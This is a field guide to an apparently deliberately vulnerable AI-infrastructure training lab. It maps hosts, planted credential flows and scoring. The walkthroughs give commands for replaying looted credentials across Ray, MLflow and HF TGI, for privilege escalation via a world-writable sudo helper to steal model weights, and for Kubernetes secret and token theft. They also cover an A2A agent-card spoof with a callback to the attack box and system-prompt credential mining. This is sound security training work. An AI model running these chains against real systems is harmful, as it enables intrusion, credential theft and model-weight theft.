

# Lab Field Guide — Comprehensive Operator Reference

The single authoritative ground-truth reference for the aipostex lab. Read this and you know the
estate cold: what the guided tactic runs, every host and service, how the services relate (the
credential flows that turn one open dashboard into three-team compromise), the full attack-path
walkthroughs (including the privesc → model-weight theft chain), the key on-disk paths, and where
the tool honestly refuses to overclaim.

It starts with the guided tactic (the anchor everyone runs) and then expands outward to the whole
estate.

- **Current build:** lab-ready `v1.5.4`.
- **Answer key (not duplicated here):** every planted secret lives in the
  [Sensitive Data Inventory](data-inventory.md). This guide maps *services, relationships, and
  paths* — it points at the answer key rather than copying it.
- **Presenter narration cues:** the [Component & Service Explainer](component-explainer.md) is the
  per-service study sheet (what/why/handoff/landed) that this guide's §3 links into.

---

## 1. Start here — the guided credential chain (the anchor)

The lab's spine is one guided attack an attendee can run end-to-end in ~20 minutes: **one
unauthenticated Ray dashboard, chained across three teams — data science, then the app team — to
real private-model inference.** Nothing is guessed; each service hands you the credential for the
next.

| Hop | Target | You loot | It unlocks | `landed` |
|----:|--------|----------|------------|----------|
| 1 | **Ray** `172.16.50.20:8265` (no auth) | an MLflow Basic credential in a job's `runtime_env` | the MLflow gateway | read-confirmed |
| 2 | **MLflow gateway** `172.16.50.30:5000` (Basic-gated) | an HF token in a run's params/tags | the HF TGI gateway | read-confirmed |
| 3 | **HF TGI gateway** `172.16.50.40:8180` (Bearer-gated) | **real generated text** | — | execution-confirmed |

The takeaway line: *"AI infra security isn't about one service — it's about the credential flows
between them. One open Ray dashboard became real inference on two other teams' systems."*

The presenter narration script is [Tactic — Guided Chain](../demo/tactic-chain.md); the attendee
self-serve version is [Start Here](../start.md); the CTF framing is
[Scenario 08](../attack-scenarios/scenario-08.md). Pre-flight the chain with
`bash ~/lab/verify-chain.sh` → 13/13.

---

## 2. The estate — hosts, network, trust

The lab is a Proxmox estate on an isolated bridge (`vmbr100`, `172.16.50.0/24`; host `.1` provides
outbound NAT for provisioning). Six managed VMs plus a persistent `ailab-siem` detection host:

| VM | ID | IP | Role | Headline exposure |
|----|----|----|------|-------------------|
| `ailab-dev` | 210 | .10 | Developer workstation | Ollama, Jupyter (no auth), **MCP RCE**, vuln MCP `:3002` (sandbox-escape/SSTI), Gradio, Inspector |
| `ailab-ml` | 220 | .20 | ML platform | **Ray (unauth)**, MLflow, LiteLLM (`local-qwen` fingerprint target), ChromaDB, inference/serving mocks |
| `ailab-ds` | 230 | .30 | Data science | **MLflow auth gateway**, Ollama, Jupyter, Weaviate, Qdrant, pgvector, **black-box RAG app `:8091`** |
| `ailab-app` | 250 | .40 | Shared AI apps | **HF TGI gateway (real inference)**, LangServe, Streamlit, A2A agents, **bespoke helpdesk agent `:8110`** |
| `ailab-k8s` | 260 | .50 | Kubernetes node | Docker/k3s **:6443 vuln** / **:6444 secure** — anon secret-read + sa-loot |
| `ailab-attack` | 240 | .99 | Attack box | Runs `aipostex`; SSH; callback sink `:9000` |
| `ailab-siem` | 270 | .60 | Detection (persistent) | **Elastic Security** — Elasticsearch `:9200`, Kibana `:5601`, 5 detection rules, Beats on every target |

**The attack-box model.** The estate `/24` is reachable **only from the attack box** (`.99`). The
operator SSHes to the box (Tailscale `<attack-box-ip>`) and drives every module from there; the demo
tapes do this in a hidden setup step. Your dev machine cannot reach the lab subnet directly.

**Trust model.** The estate is **flat by design** — realistic for an open internal network, and the
point is credential flow, not segmentation. An opt-in segmentation toggle
(`lab-scripts/segmentation.sh`, default off) exists for demonstrating the hardened counterfactual.
Full topology: [Network Topology](../architecture/network.md); estate map + creds:
[VM Map](../getting-started/vm-map.md); port matrix: [Port & Service Matrix](ports.md).

---

## 3. Every service, defined (by host)

Concise definition + exposure + what the tool honestly proves (`landed`), per host. Deeper
narration is in the [Component Explainer](component-explainer.md); per-service pages under
[Services](../services/index.md) carry setup/fixtures.

### ailab-dev (.10) — developer workstation

- **Ollama** `:11434` — local model server hosting custom models with system prompts. No blob
  download route; on-disk store is `0750`. `prompts` → read-confirmed (system-prompt cred mining);
  `poison-verify` → influenced; `exfiltrate` → **reachable** (honest negative — see the privesc
  path in §5B).
- **MCP server** `:3000` — real FastMCP server exposing an unsandboxed `execute_command`; runs as
  `devuser`. `env-extract` → read-confirmed; `poison --mode cmd-inject` / `shell` →
  **execution-confirmed** (RCE). The pivot for weight theft.
- **Jupyter** `:8888` — no token, binds `0.0.0.0`. `notebooks --mine-secrets` → read-confirmed;
  `shell` → execution-confirmed (Python kernel).
- **Gradio** `:7860` — chat UI over the local model (surface/recon).
- **MCP Inspector** `:6274` — dev tooling surface (recon).

### ailab-ml (.20) — ML platform

- **Ray** `:8265` — **unauthenticated** dashboard; jobs' `runtime_env` leaks the MLflow credential
  (chain hop 1). `jobs` → read-confirmed; `beacon` → own/execution-confirmed on callback else
  impact/influenced.
- **MLflow** `:5000` — directly-exposed backend (the *chain-hop* gateway is on `.30`). `runs` /
  `bulk-download` → impact/takeover-capable on a live `model/MLmodel`; `upload-artifact` capped at
  impact/influenced; `hook` → own/takeover-capable (persistent tag + controller callback, not
  execution-confirmed).
- **LiteLLM** `:4000` / `:4001` — real OpenAI-compatible proxy; siftable master key; `:4001`
  enforces auth (the honesty control). Key theft / LLM-jacking / config extraction.
- **ChromaDB** `:8000` — PII collections; `inject` / PII extraction. (The dev box's `.env`s point
  here — see §4.)
- **Inference mocks** — HF TEI `:8181`, vLLM `:8182` (fingerprint/recon).
- **Serving fixtures** — TorchServe `:8081`/`:8082`, Triton `:8500`, BentoML `:3333`, TF Serving
  `:8501`, Kubeflow `:9000`, W&B `:8444`. `register`/`model-load`/`predict` → execution-confirmed
  via a real register + input-dependence probe (handler simulated on CPU — the honest GPU caveat).

### ailab-ds (.30) — data science

- **MLflow gateway** `:5000` — **Basic-auth gated** (chain hop 2). Unauth → 401; the Ray-looted
  Basic credential → 200 and surfaces the HF token. `runs` → read-confirmed.
- **Ollama** `:11434`, **Jupyter** `:8889` — a second team's copies (as `.10`).
- **Weaviate** `:8080`, **Qdrant** `:6333`, **pgvector** `:5432` — vector stores; PII extraction /
  `inject --verify-persist`.

### ailab-app (.40) — shared AI apps

- **HF TGI gateway** `:8180` — **Bearer-gated real inference** (chain hop 3); Hub-compatible
  `resolve`. `generate` w/ looted token → execution-confirmed (`inference: real`); `model-download`
  → impact/takeover-capable on a live `model.safetensors`.
- **A2A agents** `:8100`–`:8102` (deterministic **scored** mocks) and `:8103` (the **real
  a2a-sdk agent** — offensive verbs target this). `card-spoof` → influenced on acceptance,
  takeover-capable only on a nonce-correlated callback (§5D).
- **LangServe** `:8090`, **Streamlit** `:8501` — chain app/UI surfaces (recon).
- **Post-Ex Oracle** `:8765` — post-exploitation validation endpoint.

### ailab-k8s (.50) — Kubernetes node

- **k3s** `:6443` (**vuln**, anonymous RBAC) / `:6444` (**secure** control, 401). `secret-read`
  → read-confirmed; `sa-loot`/`pod-exec` → execution-confirmed/takeover-capable (supply-chain
  registry write); `rbac-probe` on `:6444` → reachable (honest negative). Full page:
  [Kubernetes Node](../services/k8s/cluster.md).

---

## 4. Service relationships — the credential-flow graph

The estate's danger is not any one box; it's how a credential looted from one service opens the
next. The primary flows:



**Narrated:**

- **The chain (Ray → MLflow → HF).** Ray runs jobs; a job's `runtime_env` carries the team's
  `MLFLOW_TRACKING_USERNAME/PASSWORD`. That Basic credential opens the `.30` MLflow gateway, where a
  run's params/tags carry an `hf_` token. That token replays into real inference on the `.40` TGI
  gateway. Three teams, one thread.
- **The foothold → weights (MCP → root → Ollama).** MCP RCE lands as `devuser`, who *cannot* read
  the `0750` weight store — but a world-writable root-run `sudo` helper escalates to root, which can
  (§5B).
- **The cluster → registry (k8s anon → SA → supply-chain).** Anonymous RBAC on `:6443` reads the
  `model-registry-creds` (HF + AWS) directly; `pods/exec` + `sa-loot` steals the over-granted
  `pipeline-runner` SA token, which can `create/update/delete` the registry cluster-wide.
- **Cross-host references (recon glue).** The dev box's `.env` files, `config.py`, shell history,
  and MCP configs point at *other hosts* — e.g. `ChromaDB` at `172.16.50.20:8000`, `db-prod-01` /
  `db-dev-01.acme.internal`, `cache-01.acme.internal`. Reading `.10`'s filesystem maps the estate
  before you touch the other boxes (see the [Data Inventory](data-inventory.md)).

---

## 5. Attack-path walkthroughs

Each headline path, walked with commands + expected `landed`. All run from the attack box.

### 5A. The credential chain

```bash
aipostex sessions start acme-mlops   # every hop auto-accumulates into ~/engagements/acme-mlops
# Hop 1 — Ray (unauth): loot the MLflow Basic credential
aipostex ray --target http://172.16.50.20:8265 jobs
# Hop 2 — MLflow gateway (replay the looted Basic): loot the HF token
aipostex mlflow --target http://172.16.50.30:5000 \
    --header "Authorization: Basic <ray-looted-basic>" runs --limit 20
# Hop 3 — HF TGI gateway (replay the looted HF token): real inference
aipostex huggingface --target http://172.16.50.40:8180 \
    --header "Authorization: Bearer <mlflow-looted-hf-token>" \
    generate --prompt "incident response playbook" --force-exploit
aipostex report view ~/engagements/acme-mlops --chains   # the chain board (sessions stop when done)
```

`landed`: read-confirmed → read-confirmed → **execution-confirmed** (`inference: real`, proven by a
no-credential control probe). Detail: [Tactic — Guided Chain](../demo/tactic-chain.md).

### 5B. Privesc → model-weight theft

The honest negative (`ollama exfiltrate` → `reachable`) is the signpost: no HTTP blob route, `0750`
store → theft needs local root. MCP RCE lands as `devuser`; a world-writable `sudo` helper
escalates to root; root reads real GGUF bytes. Readable escalation via the interactive console:

```text
aipostex mcp --target http://172.16.50.10:3000 shell --force-exploit
mcp> :tools
mcp> execute_command {"command":"id"}
mcp> execute_command {"command":"sudo /usr/local/bin/ollama-maintenance.sh"}   # after rewriting it
mcp> :quit
```

`landed`: execution-confirmed / own (`uid=0` + GGUF bytes). Full step-by-step:
**[Scenario 13](../attack-scenarios/scenario-13.md)**.

### 5C. Kubernetes supply-chain

```bash
aipostex k8s --target https://172.16.50.50:6443 --insecure secret-read --all-namespaces --force-exploit
aipostex k8s --target https://172.16.50.50:6443 --insecure sa-loot --namespace ml-prod --force-exploit
```

Anon read recovers `model-registry-creds` (HF/AWS) across namespaces; `sa-loot` steals the
`pipeline-runner` token proving cluster-wide write → registry tampering. `landed`: read-confirmed →
execution-confirmed/takeover-capable. The `:6444` control returns 401 (honest negative). Full page:
[Kubernetes Node](../services/k8s/cluster.md).

### 5D. A2A — "accepted ≠ exploited"

```bash
aipostex a2a --target http://172.16.50.40:8103 card-spoof \
    --callback-url http://172.16.50.99:18943 --force-exploit
```

Acceptance of the spoofed card alone is only `influenced`; a real nonce-correlated out-of-band
callback (the agent actually fetches the spoofed card) upgrades it to `takeover-capable`. The
callback URL must be routable *from the agent* (the attack-box IP here). This is the honest
landed-ladder in one verb.

---

## 6. Key on-disk paths (the privesc beat)

| Path | Perms / owner | Role |
|------|---------------|------|
| `/usr/share/ollama/.ollama/models/blobs/sha256-*` | `0750 ollama:ollama` | Real GGUF weight blobs — unreadable without root |
| `/usr/local/bin/ollama-maintenance.sh` | `0777 root:root` | World-writable root-run helper — the misconfig |
| `/etc/sudoers.d/ollama-maintenance` | `0440` | `devuser ALL=(root) NOPASSWD: /usr/local/bin/ollama-maintenance.sh` |
| MCP service account | `devuser` (uid 1001) | RCE lands here; **not** in the `ollama` group |

Provisioned by the "ollama-maintenance helper" block in `lab-scripts/dev-workstation/provision.sh`
(idempotent; restores pristine on re-run / reset-wave). Cross-host secret paths (dev `.env`s,
configs, history, MCP configs, k8s secrets): [Data Inventory](data-inventory.md).

---

## 7. Honesty ledger — where the tool refuses to overclaim

These are features, not gaps. The lab is graded by what *landed*, per finding.

- **Ollama weight theft over the network** → `reachable`, not stolen (no HTTP blob route; `0750`
  on disk). Routes to [Scenario 13](../attack-scenarios/scenario-13.md).
- **A2A card-spoof acceptance** → `influenced`, not takeover — until a real callback fires.
- **MLflow `upload-artifact`** → capped at `impact/influenced`; never exec/own.
- **MLflow `hook`** → `own/takeover-capable` (persistent tag + controller callback), explicitly
  **not** `execution-confirmed`.
- **Serving `register`/`predict`** → `execution-confirmed` via real registration + input-dependent
  inference probe, but the **handler is simulated on CPU** (the honest GPU caveat).
- **HF inference** → only a credential replay after a no-credential control probe proves the
  endpoint genuinely rejects the unauthenticated request.
- **k8s secure control `:6444`** → `reachable` / not-weak (401) — the deliberate negative baseline.

Full honesty matrix: [RRR Honesty Matrix](../scoring/rrr.md). Fixture grading:
[Mock & Fixture Fidelity](mock-fidelity.md).

---

## See also

- [VM Map & Credentials](../getting-started/vm-map.md) · [Network Topology](../architecture/network.md) · [Port Matrix](ports.md) · [Data Inventory](data-inventory.md)
- [Tactic — Guided Chain](../demo/tactic-chain.md) · [Scenario 08](../attack-scenarios/scenario-08.md) · [Scenario 13](../attack-scenarios/scenario-13.md)
- [Component & Service Explainer](component-explainer.md) · [Kubernetes Node](../services/k8s/cluster.md) · [Post-Exploitation Guide](../post-exploitation/manual.md)
- [RRR Honesty Matrix](../scoring/rrr.md) · [Mock & Fixture Fidelity](mock-fidelity.md)
